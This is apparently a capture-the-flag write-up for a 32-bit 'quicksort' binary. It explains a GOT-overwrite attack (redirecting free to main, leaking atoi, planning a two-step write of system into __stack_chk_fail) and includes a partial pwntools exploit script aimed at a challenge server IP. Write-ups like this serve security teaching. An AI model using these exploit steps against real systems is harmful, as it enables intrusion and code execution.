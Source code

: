### Solution
Noting that we are able to write somewhere with atoi, and that in 32bit we can convert to max (2 ^ 31) - 1 as positive value, (libc base addr are greater).
We used got overwrite, by overwritting the free@got with the address of the main, so having a loop of the main,
then in the second iteration we also leaked the atoi@got, by crafting the buffer 's', so to change the counter of element inserted.

Now if we want to overwrite a got with the system (e.g. 0xf7decda0) we cannot do that in one step, but in two steps,
so this means that we cannot overwrite a got required in the next iteration by the main.

We selected the __stack_chk_fail@got, in fact we are lucky that below is the malloc@got, and this last has the least significant byte set to 0x00,
so now we can write 0x00decda0 in __stack_chk_fail@got, and then write 0x00f7decd in __stack_chk_fail@got+1.
```
from pwn import *
import time, ctypes

debug = int(sys.argv[1])
online=False
if( debug == 0):
  r = remote("34.92.96.238", 10000)
  libcz = ELF("./libc.so.6")
  online=True
elif(debug == 1):
  libcz = ELF("/lib/i386-linux-gnu/libc.so.6")
  mainz = ELF("./quicksort")
  r = mainz.process()
  online=False

def halt():
  while True:
    log.info( r.recvline() )

def interactive():
  if not online:
    print( """/usr/bin/gdb -q  {0} {1}""".format( r.argv[0], r.pid ) )
  r.interactive()

def send_payload( offset, counter_1, counter_2, addr_special):
 r.recvuntil("to sort?")
 r.sendline("1")
 r.recvuntil("number:")
 payload = ""
 payload += (str(offset)).ljust(0x2c - 0x1c, "\x00")
 payload += p32( 1 )
 payload += p32( counter_1)
 payload += p32( counter_2)
 payload += p32( addr_special)
 r.sendline( payload )

def exploit():
 #main loop
 main_addr = 0x8048816
 free_got = 0x804a018
 send_payload( main_addr, 0, 1, free_got)

 #leak atoi
 atoi_got = 0x804a038
 send_payload( 0x1, 1, 0, atoi_got)
 r.recvuntil("Here"); r.recvline()
 leak_atoi = ctypes.c_ulong(int( r.recvline().rstrip() )).value & (2**32 -1)
```